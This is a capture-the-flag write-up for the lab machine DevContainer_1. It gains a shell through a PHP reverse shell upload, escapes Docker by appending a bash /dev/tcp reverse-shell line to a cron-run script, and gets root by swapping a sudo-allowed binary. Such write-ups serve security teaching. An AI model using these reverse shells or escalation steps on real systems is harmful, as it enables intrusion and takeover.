DevContainer_1 Writeup
Introduction
DevContainer_1 is an easy machine created by @0x04E1, on this machine we will find a page with a upload function where we will upload a PHP reverse shell, then we we will find us on a Docker container rather than the machine itself, after checking the files we will find a file that is being run every x seconds, we will add a reverse shell to it in order to get a shell on the machine, finaly we will see that we can execute a file without supplying a password, we will see that we have permissions over the directory where that file is located, so we can move it and create a reverse shell on the path of the original file and get root.
Enumeration
We start use nmap find the open ports and then make a deeper scan on those ports.
nmap -p- -Pn -n -T 4 192.168.56.129
nmap -sC -sV -p 80, -Pn -o scan.txt 192.168.56.129
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Freelancer - Start Bootstrap Theme
There is only port 80 open, so we check the website.

Using gobuster we find some directories. gobuster dir -u http://192.168.56.129/ -w /usr/share/wordlist/dirb/common.txt -t 50 -x txt,html,php -o busterc.txt

Gaining Access
The most interesting directory is “upload” so we enter to it.

There says that there is a couple of allowed files, but they might not be validated so we try to upload pentestmonkey’s php reverse shell. It gets upload with no problem.

We configured the file to connect to us on port 54231, so we start a listener with nc -lvp 54321 and when we open the file we get a shell.

Escaping from Docker
After enumating for a while we find that we are not inside the machine itself, but in a Docker container, if we go to check the source code of the website we find a directory named “Maintenan-Web-Docker”.

Inside of it we find 3 files, “maintenance.sh”, “list.sh” and “out.txt”. The code of maintenance.sh is:
#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh
And list.sh:
#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
We see that maintenance.sh calls list.sh, and list.sh writes some info in out.txt, but we see something interesting, the path of the files are “/home/richard/web/Maintenance-Web-Docker/”, but we are in “/var/www/html/Maintenance-Web-Docker/”, so the machine must be doing volume mapping, we can guess that the container was started with docker run -p 80:80 -v /home/richard/web/Maintenance-Web-Docker/:/var/www/html/Maintenance-Web-Docker/ <image name>. That means that if we write in “/var/www/html/Maintenance-Web-Docker/” we will be writing inside the machine, the next important thing is “out.txt”, if we check it, we see that it has some lines written, and they were written with today’s date.

Probably there is a crontab running that executes maintenance.sh or list.sh every x time, so we move out.txt and after some time it gets created again so we know that those are being run.

Everything we have to do is add a reverse shell to list.sh, I like to use one-lin3r to generate reverse shell one liners.

So we execute echo ‘bash -i >& /dev/tcp/192.168.56.130/54322 0>&1’ >> list.sh to append our reverse shell to list.sh, we check that is has been edited.

As before we had a listener waiting with: nc -lvp 54322, and after some seconds we will have our shell.

We can read user.txt.

Privilege Escalation
We check if we can execute any command with sudo using sudo -l, and we get that we can execute sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90 without supplying a password.

As the path of the command indicates the file is inside our home directory.

Since it is inside our home directory we can rename the directory with mv HackTools btools, now we create the directory “HackTools” again, and we create the file socat inside of it with a revese shell, finally we execute sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90 and we will get our root shell and retrieve “proof.txt”.
